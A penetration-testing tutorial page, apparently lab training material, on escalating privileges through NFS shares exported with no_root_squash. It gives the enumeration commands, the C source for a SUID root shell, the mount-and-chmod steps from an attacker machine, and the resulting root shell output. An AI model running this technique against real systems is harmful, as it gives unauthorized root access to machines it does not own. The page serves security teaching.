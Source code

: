 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Weak NFS Privileges

Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

{% code title="Command" %}
```bash
showmount -e 10.129.2.12
```
{% endcode %}

{% code title="Example Output" %}
```
Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```
{% endcode %}

When an NFS volume is created, various options can be set:

**root\_sw**

If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set.

**no\_root\_squash**

Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.

{% code title="Command" %}
```bash
cat /etc/exports
```
{% endcode %}

{% code title="Example Output" %}
```bash
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```
{% endcode %}

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

{% code title="Command" %}
```bash
cat shell.c 
```
{% endcode %}

{% code title="Example Output" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
{% endcode %}

{% code title="Command" %}
```bash
gcc shell.c -o shell
```
{% endcode %}

From the attacker machine:

{% code title="Attacker Machine" %}
```shell-session
kali@kali:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
kali@kali:~$ cp shell /mnt
kali@kali:~$ chmod u+s /mnt/shell
```
{% endcode %}

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

{% code title="Target Machine" %}
```shell-session
user@target:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```
{% endcode %}

{% code title="Target Machine" %}
```shell-session
user@target:/tmp$ ./shell
root@target:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```
{% endcode %}
